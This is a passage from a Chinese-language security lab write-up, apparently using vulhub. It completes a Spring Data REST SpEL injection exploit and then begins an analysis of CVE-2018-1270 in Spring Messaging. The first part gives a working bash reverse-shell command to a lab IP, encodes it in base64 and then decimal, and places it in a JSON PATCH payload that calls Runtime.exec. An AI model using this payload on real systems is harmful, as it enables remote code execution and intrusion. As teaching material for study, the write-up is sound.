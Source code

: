 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101956.png)

这里先对`customers/1`这个页面bp抓包，还是通过bash反弹，通过处理后得到命令

    
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}

因为这里执行的代码被编码为十进制位于new java.lang.String(new byte[]{xxxxxx})中，所以需要对bash命令转成十进制编码

使用python进行编码处理，在python中转十进制的方法为`",".join(map(str, (map(ord,"命令"))))`

    
    
    ",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}"))))

![]()

得到十进制后放入bp包里面进行构造

    
    
    [    { "op": "replace",       "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,117,77,105,56,49,78,84,85,49,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname",      "value": "vulhub"     }]

构造后如图所示

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101957.png)

发包即可得到反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101958.png)

# CVE-2018-1270

Spring Messaging 命令执行漏洞(CVE-2018-1270)，Spring框架中的  **spring-messaging**
模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

## 影响版本

Spring Framework 5.0 - 5.0.5 Spring Framework 4.3 - 4.3.15

## 漏洞分析

由`expression`，`getValue`，`setValue`造成的代码执行，造成这种命令执行是由Spring的SPEL表达式造成的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101959.png)

SPEL命令执行有两种方式，一是静态方法，二是new 对象

再看一下spring-boot-messaging实现中的代码
